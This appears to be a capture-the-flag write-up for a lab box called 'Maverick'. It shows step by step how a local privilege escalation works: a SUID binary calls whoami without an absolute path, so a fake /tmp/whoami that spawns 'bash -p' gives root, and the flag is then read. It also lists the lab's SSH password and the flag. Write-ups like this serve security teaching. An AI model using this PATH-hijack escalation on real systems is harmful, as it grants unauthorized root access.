

# Maverick
```bash
ssh maverick@sss.upb -p 2022
jXztBtEWKYRMrjAF
```

Lets look for files with SUID
```bash
maverick@maverick:~$ find / -perm -4000 2> /dev/null
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/home/maverick/scripts/favorite-quote
```

favorite-quote looks interesting so we copy it to take a better look at it with ghidra
```bash
scp -P 2022 maverick@sss.upb:~/scripts/favorite-quote .
```

We see that it sets the uid and gid to 0, prints some text, and calls whoami, but without an abosulte path



We can exploit this with PATH hijacking and making it run our own version of whoami

1. Create a custom whoami script in /tmp that spawns a root shell
```bash
echo '#!/bin/bash' > /tmp/whoami
echo '/bin/bash -p' >> /tmp/whoami   
chmod +x /tmp/whoami
```

2. Prepend /tmp to PATH so our script is found first
```bash
export PATH=/tmp:$PATH
```

3. Run the SUID binary
```bash
/home/maverick/scripts/favorite-quote
```

Test it worked
```bash
root@maverick:~/scripts# id
uid=0(root) gid=0(root) groups=0(root),1000(maverick)
```

Now we can read the flag
```bash
root@maverick:~/scripts# cd /root
root@maverick:/root# ls
flag.txt
root@maverick:/root# cat flag.txt
SSS{t00_m4ny_f4c3b00k_qu0t3s}
```

